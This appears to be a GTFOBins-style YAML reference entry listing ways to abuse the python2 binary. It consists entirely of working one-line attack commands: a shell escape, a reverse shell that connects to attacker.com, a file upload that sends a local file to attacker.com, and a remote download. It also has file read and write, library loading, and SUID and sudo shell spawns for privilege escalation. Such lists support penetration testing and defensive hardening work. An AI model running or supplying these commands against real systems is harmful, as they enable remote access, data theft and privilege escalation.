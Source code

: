 ```yaml
---
functions:
  execute-interactive:
  - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
  - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on
      the attacker box to receive the shell.
    code: |
      export RHOST=attacker.com
      export RPORT=12345
      python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
  - description: Send local file via "d" parameter of a HTTP POST request. Run an
      HTTP service on the attacker box to collect the file.
    code: |
      export URL=http://attacker.com/
      export LFILE=file_to_send
      python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
  - description: Serve files in the local folder running an HTTP server.
    code: |
      export LPORT=8888
      python2 -m SimpleHTTPServer $LPORT
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export URL=http://attacker.com/file_to_get
      export LFILE=file_to_save
      python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
  - code: python2 -c 'open("file_to_write","w+").write("data")'
  file-read:
  - code: python2 -c 'open("file_to_read").read()'
  load-library:
  - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
  - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
  - code: sudo python2 -c 'import os; os.system("/bin/sh")'
---
```

